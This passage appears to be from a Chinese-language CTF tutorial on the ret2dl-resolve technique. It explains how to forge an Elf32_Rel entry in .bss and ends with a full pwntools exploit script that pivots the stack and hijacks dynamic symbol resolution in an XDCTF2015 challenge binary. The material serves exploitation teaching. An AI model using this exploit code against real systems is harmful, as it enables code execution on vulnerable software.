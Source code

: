 成功打印 bin/sh 就是执行成功了。

### 2.2.2 Elf32_Rel

尝试伪造一个Elf32_Rel结构体。同样控制 dl_resolve 函数中的 reloc_arg参数，不过这次控制其指向我们伪造的 write 重定位项，即r_offset，r_info。

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2dl/d17.png)

使用 readeld -r mian 命令，可以看出 write 的重定表项的 r_offset=0x0804a01c，r_info=0x00000607：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2dl/d18.png?x-oss-process=style/watermark)

正常来说，我们是用reloc_arg+.rel.plt定位到Elf32_Rel的，在_dlresolve函数没有做边界检查的前提下，可以将r_offset、r_info的地址写入到.bss段上，伪造Elf32_Rel。此时需要使reloc_arg+.rel.plt的地址为r_offset、r_info（记为fake_reloc）的地址。因此我们要构造的reloc_arg（记为偏移index_offset）为：index_offset+.rel.plt=fake_reloc。base_stage的内容如下：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2dl/d19.png?x-oss-process=style/watermark)

此时，fake_reloc=base_stage+24= index_offset+.rel.plt，因此index_offset= base_stage + 24 - rel_plt。

exp2:

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')
offset = 112
bss_addr = elf.bss()
r.recvuntil('Welcome to XDCTF2015~!\n')
stack_size = 0x800 #普遍是这个地址
base_stage = bss_addr + stack_size 
rop.raw('a' * offset)#在ROP链中填充offset个a
rop.read(0, base_stage, 100)#相当于call read，读取100个字节到base_stage，即第2段rop
rop.migrate(base_stage)#会将程序流程又转到base_stage
r.sendline(rop.chain()) #第一段栈迁移
rop = ROP('./main')
sh = "/bin/sh"
plt0 = elf.get_section_by_name('.plt').header.sh_addr #获得plt0的地址
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr#获得.rel.plt的地址
index_offset = base_stage + 24 - rel_plt #假的偏移，使reloc_arg+.rel.plt指向构造的Elf32_Rel
write_got = elf.got['write'] #也就是Elf32_Rel里的r_offset
r_info = 0x607 # Elf32_Rel里的r_info
fake_reloc = p32(write_got) + p32(r_info)#假的Elf32_Rel
rop.raw(plt0)
rop.raw(index_offset)#会跳转到我们的 fake_reloc
rop.raw('bbbb')
rop.raw(1)
rop.raw(base_stage + 80)
rop.raw(len(sh))#调用write写入bin/sh
rop.raw(fake_reloc)#Elf32_Rel写入bss段
rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))#填充到100字符
r.sendline(rop.chain())#第2段rop
r.interactive()
```
